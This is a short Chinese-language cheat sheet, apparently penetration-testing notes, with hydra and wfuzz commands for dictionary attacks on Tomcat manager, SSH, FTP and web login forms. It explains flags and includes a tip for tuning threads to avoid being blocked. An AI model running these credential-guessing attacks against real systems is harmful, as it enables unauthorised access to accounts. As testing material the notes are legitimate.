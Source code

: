 ```yaml
---
title: hydra&wfuzz弱密码测试用例(updating)
categories:
- tools
tags:
- tools
---
```


## Apache认证
```
cd /usr/share/seclists/

hydra -C Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://ip:port/manager/html
```

## ssh/ftp密码认证

```
-l -L 设置用户名
-p -P 设置密码
小写为单个单词，大写为单词字典。
-t （默认16）设置线程数，防止太大被拦截

hydra -l user -P /root/Desktop/pass.txt **ip** ssh -t 4

hydra -L /root/Desktop/86/user.txt -P /usr/share/wordlists/500-worst-passwords.txt **ip** ftp
```

## web-post表单认证

```
hydra -U http-post-form 查看帮助

cd /usr/share/seclists/Usernames
hydra -L top-usernames-shortlist.txt -P /usr/share/wordlists/500-worst-passwords.txt -f **ip** http-post-form "/admin.php:user=^USER^&pass=^PASS^:HERE"
```
`/admin.php` 是URI

`user pass`是抓包后看到的post参数

`^USER^` 、`^PASS^` 无需修改

`HERE` 是登陆错误的提示，需要修改为对应的标识。例如，Invalid credential，就可以在hydra里设置为`Invalid`

---

```
wfuzz -c --hl=18 -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://{IP}/login

-d 设置burp拦截的登陆表单参数
-c 有颜色的输出
--h1 设置错误响应的长度，如果长度不是18，则说明找到正确密码
--hc 隐藏具体的响应代码，例如404,200之类的
FUZZ 是需要爆破替换的地址。
--basic 测试一个需要HTTP Basic Auth保护的内容
-z 扫描模式，可以字典扫描，数字范围扫描。。。
```



